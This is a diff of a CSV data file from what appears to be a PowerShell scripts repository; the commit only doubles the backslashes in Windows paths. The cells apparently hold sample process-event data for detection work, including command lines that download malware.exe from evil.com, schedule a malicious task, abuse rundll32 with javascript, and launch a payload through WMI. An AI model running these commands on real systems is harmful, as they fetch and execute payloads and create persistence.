

Before and after one commit to helloitsliam/PowerShellScripts, a CSV file: Microsoft-365/Data/Data.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/Microsoft-365/Data/Data.csv
+++ b/Microsoft-365/Data/Data.csv
-G2 (FolderPath): C:\Windows\system32
+G2 (FolderPath): C:\\Windows\\system32
-G3 (FolderPath): C:\Windows\System32\WindowsPowerShell\v1.0
+G3 (FolderPath): C:\\Windows\\System32\\WindowsPowerShell\\v1.0
-G4:G5 (FolderPath): C:\Windows\system32
+G4:G5 (FolderPath): C:\\Windows\\system32
-E5 (ProcessCommandLine): …task /tr "C:\malware\task.exe" /sc minute…
+E5 (ProcessCommandLine): …task /tr "C:\\malware\\task.exe" /sc minute…
-E6 (ProcessCommandLine): rundll32.exe javascript:"\..\mshtml
+E6 (ProcessCommandLine): rundll32.exe javascript:"\\..\\mshtml
-H6 (EventType): C:\Windows\system32
+H6 (EventType): C:\\Windows\\system32
-E7 (ProcessCommandLine): …foreground https://evil.com/malware.exe C:\temp\malware.exe
+E7 (ProcessCommandLine): …foreground https://evil.com/malware.exe C:\\temp\\malware.exe
-G7:G10 (FolderPath): C:\Windows\system32
+G7:G10 (FolderPath): C:\\Windows\\system32
-E8 (ProcessCommandLine): …call create 'C:\temp\malware.exe'
+E8 (ProcessCommandLine): …call create 'C:\\temp\\malware.exe'
-E10 (ProcessCommandLine): …-f http://evil.com/malware.exe C:\temp\malware.exe
+E10 (ProcessCommandLine): …-f http://evil.com/malware.exe C:\\temp\\malware.exe
-K11: Su C:\temp\malicious.bat
+K11: Su C:\\temp\\malicious.bat
-M11: C:\Windows\system32
+M11: C:\\Windows\\system32
-G12 (FolderPath): C:\Windows\system32
+G12 (FolderPath): C:\\Windows\\system32
-G13 (FolderPath): C:\Windows\System32\WindowsPowerShell\v1.0
+G13 (FolderPath): C:\\Windows\\System32\\WindowsPowerShell\\v1.0
-G14 (FolderPath): C:\Windows\system32
+G14 (FolderPath): C:\\Windows\\system32
```
Also changed, not shown: 61 edited cells elsewhere in this file, 11 other files.
